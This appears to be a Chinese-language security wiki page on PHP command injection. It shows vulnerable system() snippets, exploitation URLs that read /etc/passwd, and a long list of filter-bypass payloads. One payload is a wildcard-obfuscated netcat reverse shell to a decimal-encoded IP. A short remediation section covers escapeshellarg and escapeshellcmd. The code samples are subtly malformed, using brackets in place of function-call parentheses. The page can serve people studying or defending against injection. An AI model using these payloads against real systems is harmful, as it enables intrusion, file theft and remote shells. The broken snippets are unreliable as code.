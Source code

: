 # PHP命令执行漏洞
应用程序的某些功能需要调用可以执行系统命令的[PHP命令执行函数](PHP命令执行函数.md)，如果这些函数或者函数的参数被用户控制，就有可能通过命令连接符拼接到正常的函数中，从而任意执行系统命令。

## Windows下的命令执行漏洞
Windows下的命令连接符[Windows连接符](Windows连接符.md)包括&、&&、|、||

代码示例：
```
<?php
	$ip=$_GET['ip'];
	system["ping".$ip];
?>
```

利用方法：
`cmd.php?ip=120.0.0.1|whoami`

## Linux下的命令执行漏洞
Linux下的命令连接符[Linux连接符](Linux连接符.md)包括 ;、&、&&、|、||

代码示例：
```
<?php
	$ip=$_GET['ip'];
	system["ping -c 3".$ip];
?>
```

利用方法：
`cmd.php?ip=120.0.0.1;whoami`

# 命令执行绕过
## 绕过空格过滤

1. \${IFS} 绕过
\$IFS 是shell的特殊环境变量，是Linux下的内部分隔符。\$IFS中存储的值可以是空格、制表符、换行符或者起他的自定义符号。
`cmd.php?ip=127.0.0.1;cat${IFS}/etc/passwd`

2. \$IFS\$9 绕过
空格过滤可以使用 \$IFS\$9 绕过
`cmd.php?ip=127.0.0.1;cat$IFS$9/etc/passwd`

3. 制表符绕过
%09是制表符的URL编码，可以绕过空格过滤
`cmd.php?ip=127.0.0.1;cat%09/etc/passwd`

4. {} 绕过
空格过滤可以使用 {} 绕过
`cmd.php?ip=127.0.0.1;{cat,/etc/passwd}`

5. \< 过滤
空格过滤可以使用 \< 绕过
`cmd.php?ip=127.0.0.1;cat</etc/passwd`

## 绕过关键字过滤
 
 1. 变量拼接过滤
Linux支持变量赋值，可以通过变量拼接来绕过过滤规则
`cmd.php?ip=127.0.0.1;$a=c;$b=at;$a$b/etc/passwd`

 2. 空变量绕过
`cmd.php?ip=127.0.0.1;ca${x}t /etc/passwd`

 3.  系统变量绕过
${SHELLOPTS}是系统变量，可以利用系统变量的字符拼接绕过过滤
```
# echo ${SHELLOPTS}
# braceexpand:emacs:hashall:histexpand:history:interactive-comments:monitor
```
截取字符拼接：
`cmd.php?ip=127.0.0.1;${SHELLOPTS:3:1}at /etc/passwd`

 4. \\绕过
`cmd.php?ip=127.0.0.1;c\a\t /etc/passwd`

 5. 通配符绕过
`cmd.php?ip=127.0.0.1;cat /？？？/？？？sw？`

 6. shell反弹绕过
将IP 192.168.91.131 转为十进制：3232258947
然后通过通配符替换关键字：
``/b??/?c 3232258947 8888 -e /???/b？？h``

 7. Base64编码绕过
```cmd.php?ip=127.0.0.1;`echo "aWQ="|base64 -d` ```

 8. expr和awk绕过
通过expr和awk命令从其他文件这获取字符并进行命令构造
例如获取`www.ctfs-wiki.com`的第一个字符w：
``expr $substr$(awk=1 ctfs-wiki) 1 1``

 9. 无回显的命令执行可通过反弹shell或者DNS管道解析

# 漏洞修复
1. escapeshellarg函数
(PHP 4 >= 4.0.3, PHP 5, PHP 7)
把字符串转码为可以在 shell 命令里使用的参数
``string escapeshellarg ( string $arg )``
escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含 exec(), system() 执行运算符
概述：
* 确保用户只传递一个参数给命令
* 用户不能指定更多的参数一个
* 用户不能执行不同的命令

2. escashellcmd函数

(PHP 4, PHP 5, PHP 7)
shell 元字符转义
``string escapeshellcmd ( string $command )`` escapeshellcmd()对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义；反斜线（\）会在以下字符之前插入：`` &#;`|*?~<>^()[]{}$, \x0A 和 \xFF；’ 和 "`` 仅在不配对儿的时候被转义；在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替
概述：
* 确保用户只执行一个命令
* 用户可以指定不限数量的参数
* 用户不能执行不同的命令

参考[利用/绕过escapeshellarg/escapeshellcmd函数_LYJ20010728的博客-CSDN博客](https://blog.csdn.net/LYJ20010728/article/details/116902085)
